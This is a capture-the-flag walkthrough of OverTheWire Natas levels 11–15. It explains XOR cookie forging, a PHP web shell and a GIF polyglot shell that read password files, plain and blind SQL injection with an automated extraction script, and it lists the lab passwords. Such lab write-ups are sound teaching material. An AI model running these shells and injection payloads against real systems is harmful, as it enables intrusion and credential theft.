# Natas Walkthrough (Level 11–15)

Professional Web Exploitation Documentation  
Platform: OverTheWire – Natas

# Natas Level 11

## Concept Explanation

Level 11 demonstrates weak client-side cryptography using XOR encryption. The application stores configuration data inside a cookie named `data`.

From the source code:

```php
$defaultdata = array("showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}
```

Key observations:

- Cookie is Base64 encoded.
    
- Inside is XOR-encrypted JSON.
    
- Default plaintext is known.
    

```json
{"showpassword":"no","bgcolor":"#ffffff"}
```

Because XOR is reversible:

```
plaintext ⊕ key = ciphertext
ciphertext ⊕ plaintext = key
ciphertext ⊕ key = plaintext
```

Since we know the plaintext structure, we can recover the encryption key and forge a new cookie.



## Step-by-Step Walkthrough

### 1. Capture Cookie

```
HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GdTEJAyJkTRg=
```

### 2. Recover XOR Key

```php
<?php
$data1 = array("showpassword" => "no", "bgcolor" => "#ffffff");
$data2 = array("showpassword" => "yes", "bgcolor" => "#ffffff");

function XOR_d($in, $key) {
    $out = '';
    for ($i = 0; $i < strlen($in); $i++) {
        $out .= $in[$i] ^ $key[$i % strlen($key)];
    }
    return $out;
}

$cookie = 'HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GdTEJAyJkTRg=';

$full_key = XOR_d(base64_decode($cookie), json_encode($data1));
$key = substr($full_key, 0, 4);

echo "Recovered key: " . $key . "\n";

$new_cookie = base64_encode(XOR_d(json_encode($data2), $key));
echo "New cookie: " . $new_cookie . "\n";
?>
```




Recovered key:

```
eDWo
```

### 3. Modify Cookie

Change:

```
"showpassword":"no"
```

to

```
"showpassword":"yes"
```

Replace the `data` cookie and refresh the page.




<details> <summary>Click to reveal password </summary>  yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB  </details>

---

# Natas Level 12

## Concept Explanation

This level contains an insecure file upload mechanism.

Observations from source code:

- Files must be under 1KB.
    
- Application renames files but trusts extension logic.
    
- No proper content validation.


This allows extension manipulation via request interception.

  



## Step-by-Step Walkthrough

### 1. Create Web Shell

```php
<?php system($_GET['cmd']); ?>
```

### 2. Intercept Request (Burp Suite)

Change filename from:

```
payload.jpg
```

to:

```
payload.php
```



### 3. Execute Shell




```
/upload/randomname.php?cmd=cat /etc/natas_webpass/natas13
```


<details> <summary>Click to reveal password </summary>  trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC  </details>

---

# Natas Level 13

## Concept Explanation

This level improves upload validation using `exif_imagetype()`.

Validation logic:

- Generates random filename (10 characters).
    
- Limits size to 1000 bytes.
    
- Uses `exif_imagetype()` to verify image.
    

However, `exif_imagetype()` checks only file headers. A polyglot file can bypass this.

  



## Step-by-Step Walkthrough

### 1. Create Polyglot File

```php
GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

### 2. Upload File



### 3. Execute

```
/?e=cat /etc/natas_webpass/natas14
```



<details> <summary>Click to reveal password </summary>  z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ  </details>

---

# Natas Level 14

## Concept Explanation

Classic SQL Injection vulnerability.

Vulnerable query:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

User input is directly concatenated without sanitization.



## Step-by-Step Walkthrough

### SQL Injection Payload

Username:

```
natas15
```

Password:

```
" OR "1"="1
```



<details> <summary>Click to reveal password </summary>  SdqIqBsFcz3yotlNYErZSZwblkm0lrvx  </details>

---

# Natas Level 15

## Concept Explanation

This level introduces Boolean-based Blind SQL Injection.

Instead of returning the password, the application only reveals whether a user exists.

This enables character-by-character extraction.



## Step-by-Step Walkthrough

Test payload example:

```
natas16" AND SUBSTRING(password,1,1)="a" --
```

If response contains:

```
This user exists.
```

The guessed character is correct.

## Automation Script

```python
import requests
import string
from requests.auth import HTTPBasicAuth

basicAuth = HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
url = "http://natas15.natas.labs.overthewire.org/index.php"

password = ""
chars = string.digits + string.ascii_letters

for i in range(1, 33):
    for c in chars:
        payload = f'natas16" AND BINARY substring(password,1,{i})="{password+c}" -- '
        r = requests.post(url, data={"username": payload}, auth=basicAuth)
        if "This user exists." in r.text:
            password += c
            print(password)
            break

print("Final password:", password)
```



<details> <summary>Click to reveal password </summary>  hPkjKYviLQctEW33QmuXL6eDVfMW4sGo  </details>

---
## 🧑‍💻 Author

Ghost -  Cyber-security Learner & CTF Player
